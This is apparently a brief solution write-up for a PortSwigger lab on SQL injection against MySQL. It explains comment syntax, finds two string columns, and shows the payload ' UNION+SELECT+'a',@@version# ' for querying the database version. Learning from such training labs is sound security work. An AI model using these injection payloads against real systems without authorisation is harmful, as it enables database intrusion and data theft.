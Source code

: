 # Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/44f9d7d6-7ecb-4d9d-bd75-90266f364739)

### Solution: 

The difference is that on MySQL (which appears to be used here), a # character is best used for beginning a comment instead of the --. 

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

` UNION+SELECT+'a',@@version# `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2e104110-d470-4e70-839b-6749320f94ed)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c1e6486a-f95a-4f30-9027-5e7474282077)
